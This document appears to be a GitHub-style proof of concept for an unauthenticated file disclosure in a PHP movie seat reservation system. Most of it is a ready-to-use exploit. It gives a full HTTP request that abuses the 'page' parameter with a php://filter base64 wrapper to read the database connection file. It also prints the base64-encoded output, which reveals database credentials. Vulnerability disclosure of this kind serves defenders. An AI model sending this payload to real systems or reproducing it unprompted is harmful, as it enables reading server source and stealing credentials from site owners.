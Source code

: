 # Movie Seat Reservation System Unauthenticated File Disclosure
* `Note` => don't need login 
# Exploit 
* Exploit with Burp Suite 
![image](https://user-images.githubusercontent.com/79050415/160242883-2539e290-9b33-4267-a38b-a2d37563b0a2.png)
* Use Burp Suite capture request and payload => `Send`
![image](https://user-images.githubusercontent.com/79050415/160242922-7c29a7ac-787f-47b8-9052-6c5c2d7495cb.png)
* Then decode `Base64` 
```python3
 PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyb290JywnJywndGhlYXRlcl9kYicpb3IgZGllKCJDb3VsZCBub3QgY29ubmVjdCB0byBteXNxbCIubXlzcWxpX2Vycm9yKCRjb24pKTsNCg==    
```
![image](https://user-images.githubusercontent.com/79050415/160243014-eff96877-37c4-41ba-b4ed-0359cbbece7b.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/160243179-1a4d1053-eb75-4a8c-9965-52d3eaeb5b18.png)
# POC 
* `Request`
```python
GET /Movie_Seat_Reservation_System/index.php?page=php://filter/convert.base64-encode/resource=admin/db_connect HTTP/1.1
Host: 192.168.1.101:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Movie_Seat_Reservation_System/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=0722dtqnb1dgvuono8uubajcae
Connection: close
```
